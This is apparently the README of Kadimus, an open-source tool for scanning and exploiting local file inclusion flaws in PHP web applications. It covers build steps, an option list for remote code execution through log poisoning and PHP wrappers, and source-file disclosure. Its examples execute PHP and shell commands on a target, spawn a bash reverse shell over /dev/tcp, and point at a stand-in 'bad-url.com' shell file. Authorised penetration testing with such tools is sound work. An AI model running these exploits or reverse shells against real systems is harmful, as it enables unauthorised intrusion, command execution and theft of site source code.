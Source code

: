 # Kadimus
LFI Scan &amp; Exploit Tool

## Compile:
### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based
```sh
# apt-get install libcurl4-openssl-dev
```
### Installing libpcre:
* CentOS/Fedora

```sh
# yum install libpcre-devel
```

* Debian based
```sh
# apt-get install libpcre3-dev
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based
```sh
# apt-get install libssh-dev
```
### And finally:
```sh
$ git clone https://github.com/P0cL4bs/Kadimus.git
$ cd Kadimus
$ make
```
## Options:
```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails

  Scanner:
    -u, --url STRING            Single URI to scan
    -U, --url-list FILE         File contains URIs to scan
    -o, --output FILE           File to save output results
    --threads NUMBER            Number of threads (2..1000)

  Explotation:
    -t, --target STRING         Vulnerable Target to exploit
    --injec-at STRING           Parameter name to inject exploit
                                (only need with RCE data and source disclosure)

  RCE:
    -X, --rce-technique=TECH    LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    -r, --reverse-shell         Try spawn a reverse shell connection.
    -l, --listen NUMBER         port to listen

    -b, --bind-shell            Try connect to a bind-shell
    -i, --connect-to STRING     Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host (Default: Target URI hostname)

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -G, --get-source          Try get the source files using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)
```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
./kadimus -U url_list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./kadimus -t localhost/?pg=contact -G -f "index.php%00" -O local_output.php --inject-at pg
```
### Execute php code:
```
./kadimus -t localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -X input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -X auth -c 'ls -lah'
```
### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -t localhost/?pg=contact.php -Xdata --inject-at pg -r -l 12345 -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0>&1 &' --retry-times 0
```
